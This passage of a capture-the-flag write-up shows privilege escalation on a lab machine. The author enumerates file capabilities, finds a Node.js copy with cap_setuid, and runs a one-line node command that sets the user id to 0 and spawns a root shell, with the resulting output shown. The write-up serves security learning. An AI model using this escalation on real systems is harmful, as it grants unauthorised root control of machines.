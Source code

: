 ## Privilege Escalation

We configure our terminal session or add our SSH public key to work more comfortably on the server.

We look for files with capabilities set.

```bash
$ getcap -r /
getcap -r /
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper cap_net_bind_service,cap_net_admin=ep
/usr/bin/ping cap_net_raw=ep
/usr/bin/yournode cap_setuid=ep
```

We see a suspicious binary `/usr/bin/yournode`, which we discover is a copy of `nodejs`.

```bash
$ /usr/bin/yournode
Welcome to Node.js v18.19.0.
Type ".help" for more information.
> .exit
$ /usr/bin/yournode --version
v18.19.0
```

We search in `gtfobins` for a way to escalate with `node` and capabilities, and we find one.

![alt text](../../assets/images/token-of-hate/image-17.png)

We run the following command to obtain root privileges.

```bash
ctesias@tokenofhate:~$ /usr/bin/yournode -e 'process.setuid(0); require("child_process").spawn("/bin/sh", {stdio: [0, 1, 2]})'
# id
uid=0(root) gid=1000(ctesias) grupos=1000(ctesias),24(cdrom),25(floppy),29(audio),30(dip),44(video),46(plugdev),100(users),106(netdev)
# 
```

We can read the `root.txt` flag.

